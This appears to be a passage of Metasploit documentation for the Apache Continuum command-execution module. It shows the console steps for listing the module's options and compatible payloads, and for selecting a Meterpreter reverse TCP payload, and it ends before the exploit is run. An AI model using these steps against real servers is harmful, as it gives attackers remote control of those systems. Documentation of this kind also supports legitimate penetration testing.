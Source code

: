 ```
References:
  https://www.exploit-db.com/exploits/39886
```
Typically, we would only care about the `options` of the module:
```
msf exploit(apache_continuum_cmd_exec) > options
```
```
Module options (exploit/linux/http/apache_continuum_cmd_exec):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                     yes       The target address
   RPORT    8080             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host

Exploit target:
   Id  Name
   --  ----
   0   Apache Continuum <= 1.4.2
```
To know which payloads can be used with this exploit:
```
msf exploit(apache_continuum_cmd_exec) > show payloads
```
```
Compatible Payloads
===================
   Name                                      Disclosure Date  Rank    Description
   ----                                      ---------------  ----    -----------
   ...
   linux/x86/chmod                                            normal  Linux Chmod
   linux/x86/exec                                             normal  Linux Execute Command
   linux/x86/meterpreter/bind_ipv6_tcp                        normal  Linux Meterpreter, Bind IPv6 TCP Stager (Linux x86)
   linux/x86/meterpreter/bind_ipv6_tcp_uuid                   normal  Linux Meterpreter, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   linux/x86/meterpreter/bind_nonx_tcp                        normal  Linux Meterpreter, Bind TCP Stager
   linux/x86/meterpreter/bind_tcp                             normal  Linux Meterpreter, Bind TCP Stager (Linux x86)
   linux/x86/meterpreter/bind_tcp_uuid                        normal  Linux Meterpreter, Bind TCP Stager with UUID Support (Linux x86)
   linux/x86/meterpreter/reverse_ipv6_tcp                     normal  Linux Meterpreter, Reverse TCP Stager (IPv6)
   linux/x86/meterpreter/reverse_nonx_tcp                     normal  Linux Meterpreter, Reverse TCP Stager
   linux/x86/meterpreter/reverse_tcp                          normal  Linux Meterpreter, Reverse TCP Stager
   ...
```
Next, we need to select one of the payloads for our attack:
```
msf exploit(apache_continuum_cmd_exec) > set PAYLOAD linux/x86/meterpreter/reverse_tcp
```
```
PAYLOAD => linux/x86/meterpreter/reverse_tcp
```